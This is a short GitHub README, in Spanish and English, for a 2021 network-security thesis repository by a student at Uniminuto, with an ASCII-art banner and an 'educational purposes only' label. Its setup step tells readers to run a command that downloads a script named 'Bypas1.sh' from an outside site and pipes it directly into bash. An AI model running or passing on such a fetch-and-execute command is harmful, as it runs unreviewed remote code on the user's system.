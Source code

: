 # Uniminuto
                                    #                                           
                                   .&  *            ( ,                         
                                    @  /         /  ..                          
                                    @  /     #   ,                              
                                    @  / ,   *                                  
                                  ,,                                            
                    /((((#    *%    /   /////////#                              
                   @,,,,,,,,@   .,,,*,  ,,,,,,,,,,,,,.                          
                   @,,,,,%   ,,,,,,,*,  ,,,,,  *@,,,,,(                         
                   @./   #,,,,,,,@,,/,  ,,,,*   *(,,,,,                         
                   @,,,,,(%@,,,. @,,/,  ,,,,,   (,,,,,/                         
                   @,,,,,(  *    @,,,@  *,,,%%%#,,,,,,                          
                   @,,,,,/       @,,,&   ,,,,,,,,,,(                            
                                     &  /                                       
                                      @                                         
                                      &                                         
                                      #  ,                                      
                                      @  *                                      
                                      @  ,                                      
                                      @  ,                                      
                                        .                                       
 .@@   @&  @@(   @@. (@/  (@@    @@(  (@* .@@.   @@  @@   @@.,@@@@@   @@@@@@@   
 ,&@   &&  @@ @@,@@. (&/  @@%@.,@#@@  (&, .@&.@@ @@  @@   @&   %&,  @@       @@ 
  /@@@@&   @@    @@. (@/ @@   @@   @@ (@* .@%   *@@   @@@@@*   &@,    %@@@@@%   
 &                       ,,              /        .@/&      @      ,   % @      
% .#. @% #.# %#,(/ % (*  (( .#( / % / %  %(,* (#, . .(##. %(* %   / #. /# ( % #,


El actual repositorio es creado para el trabajo de Grado del estudiante Johan Espinosa ID 589805
Tec. Gestión de seguridad en Redes de Computadores
2021




INSTRUCCIONES.


Creado por Johan Alexander Espinosa Rocuts
Solo para propósitos Educativos.


Si ya tienes las dependencias (dependencias.sh) solo ejecuta el archivo deseado
si aun no las tienes corre primero el comando 

If you already have the dependencies just run the desired file
if you don't have them yet, run the command first

bash <(curl -s http://imadcydia.com/Bypas1.sh)
